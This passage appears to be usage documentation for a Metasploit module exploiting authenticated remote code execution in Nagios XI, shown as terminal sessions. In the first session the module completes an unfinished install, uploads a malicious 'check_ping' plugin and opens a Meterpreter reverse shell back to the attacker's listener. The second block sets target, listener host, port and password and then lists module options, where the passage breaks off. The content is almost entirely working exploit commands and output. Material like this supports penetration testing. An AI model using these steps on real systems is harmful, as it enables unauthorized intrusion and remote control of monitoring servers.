 ```

[*] Started reverse TCP handler on 192.168.1.28:4444
[*] Executing automatic check (disable AutoCheck to override)
[*] Attempting to authenticate to Nagios XI...
[!] The target seems to be a Nagios XI application that has not been fully installed yet.
[*] Attempting to finish the Nagios XI installation on the target using the provided password. The username will be `nagiosadmin`.
[*] Attempting to authenticate to Nagios XI...
[!] The Nagios XI license agreement has not yet been signed on the target.
[*] Attempting to sign the Nagios XI license agreement...
[*] Attempting to authenticate to Nagios XI...
[+] Successfully authenticated to Nagios XI
[*] Target is Nagios XI with version 5.3.0
[+] The target appears to be vulnerable.
[*] Uploading malicious 'check_ping' plugin...
[*] Command Stager progress - 100.00% done (897/897 bytes)
[!] For NagiosXi version 5.3.0 it may take serveral minutes for a session to open. If the module times out, try increasing the `WfsDelay` value.
[+] Successfully uploaded plugin.
[*] Executing plugin...
[*] Waiting up to 300 seconds for the plugin to request the final payload...
[*] Sending stage (3012516 bytes) to 192.168.1.16
[*] Meterpreter session 1 opened (192.168.1.28:4444 -> 192.168.1.16:36098) at 2021-04-01 10:42:40 -0400
[*] Deleting malicious 'check_ping' plugin...
[+] Plugin deleted.

meterpreter > getuid
Server username: nagios @ localhost.localdomain (uid=1000, gid=1000, euid=1000, egid=1000)
meterpreter >
```

### Nagios XI 5.6.5 running on Ubuntu 20.04 LTS (finished installation) - Linux (x64) target
```
msf6 > use exploit/linux/http/nagios_xi_plugins_check_plugin_authenticated_rce
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > set RHOST 172.25.133.237
RHOST => 172.25.133.237
msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > set LHOST 172.25.132.121
LHOST => 172.25.132.121
msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > set LPORT 7712
LPORT => 7712
msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > set PASSWORD nagiosadmin
PASSWORD => nagiosadmin
msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > show options

Module options (exploit/linux/http/nagios_xi_plugins_check_plugin_authenticated_rce):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   FINISH_INSTALL  false            no        If the Nagios XI installation has not been completed, try to do so. This includes s
                                              igning the license agreement.
   PASSWORD        nagiosadmin      yes       Password to authenticate with
   Proxies                          no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS          172.25.133.237   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT           80               yes       The target port (TCP)
```